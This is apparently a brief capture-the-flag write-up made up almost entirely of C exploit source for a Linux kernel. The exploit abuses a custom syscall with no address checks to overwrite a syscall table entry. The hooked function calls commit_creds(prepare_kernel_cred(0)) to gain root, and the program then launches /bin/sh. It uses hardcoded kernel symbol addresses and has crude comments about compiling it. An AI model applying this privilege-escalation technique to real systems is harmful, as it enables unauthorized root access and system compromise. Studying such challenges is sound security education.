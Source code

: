 8044548c r __ksymtab_commit_creds
8003f56c T commit_creds

```
#include <unistd.h>
#include<string.h>
#include <sys/syscall.h>
#define commit_creds 0x8003f56c
#define prepare_kernel_cred 0x8003f924 
#define sys_call_table 0x8000e348 
#define SYS_upper 223
#include <stdio.h>
long hooked_syscall(){
    unsigned long (*cred_commit_func)(unsigned long) = commit_creds ; 
    unsigned long (*prepare_kernel_cred_func)(unsigned long) = prepare_kernel_cred ; 
    cred_commit_func(prepare_kernel_cred_func(0));
	return 0; 
}

int main(){
    const char  message []  = "pwn_to_own @IDHM\n" ; 
    char message2[20] ; 
    syscall(SYS_write , 1 ,message  ,strlen(message) );
    //test of the original use of the  syscall
    syscall(SYS_upper , message , message2); 
    syscall(SYS_write , 1 ,message2  ,strlen(message) );
    // hook the syscall table : because there is no write or read protection in
    // the new syscal 
    printf(" hooked syscall :: %p\n", hooked_syscall);
    fflush(stdout); 
    void * func[2] = {hooked_syscall , NULL } ; 
    syscall(SYS_upper , func  , ((void *)sys_call_table) + SYS_upper * sizeof(void *));
    syscall(SYS_upper) ; 
    syscall(SYS_write , 1 ,message2  ,strlen(message) );
    system("/bin/sh");
    return 0;
}   


``` 

compile with that shitty thing : https://gcc.gnu.org/legacy-ml/gcc-help/2010-02/msg00212.html 
cause of shitty strcpy like function that stops on zero I coulnt stay in the normal address so I had !!! to use that shitty thing !!! 
![picture 0](../images/c5514d4da189da69a8cff666642084ae46baa5d9c904afa161b6874d040a545d.png)  
